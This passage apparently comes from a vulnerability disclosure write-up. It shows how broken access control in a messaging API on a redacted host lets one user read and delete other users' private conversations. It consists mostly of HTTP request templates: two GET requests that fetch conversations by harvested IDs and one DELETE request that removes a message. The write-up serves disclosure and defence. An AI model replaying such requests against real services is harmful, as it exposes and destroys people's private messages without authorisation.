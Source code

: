 The above request fetched all the messages, dates, usernames, along with the `accountId` and `conversationId` of the users involved in the conversation.

Replay the following request to fetch details of a particular conversation of user (replace `CONVERSATION-ID` with the `conversationId` we fetched in previous step) -:

```http
GET /api/communication-service/conversation/CONVERSATION-ID/message HTTP/1.1
Host: staging.vulnerable.com
Authorization: bearer xxxxxxxxxxxxxxxxxxxxxxxxxxx
Connection: close
sec-ch-ua: "Google Chrome";v="95", "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie:
```

Replay the following request to fetch conversation with a particular participant from the user's account (replace `ACCOUNT-ID` with the `accountid` we fetched in the initial step) -:

```http
GET /api/communication-service/conversation?participantIds=ACCOUNT-ID&showHidden=true HTTP/1.1
Host: staging.vulnerable.com
Authorization: bearer xxxxxxxxxxxxxxxxxxxxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: 
```

### Deleting all private messages of user :

Replay the following request to delete a particular message from user's account (replace `CONVERSATION-ID` with the `conversationId` and `637712054644701721` with the `messageid` we fetched in the initial step) -:

```http
DELETE /api/communication-service/conversation/CONVERSATION-ID/message/637712054644701721 HTTP/1.1
Host: staging.vulnerable.com
Authorization: bearer xxxxxxxxxxxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: https://staging.vulnerable.com
Connection: close
Cookie: 
```

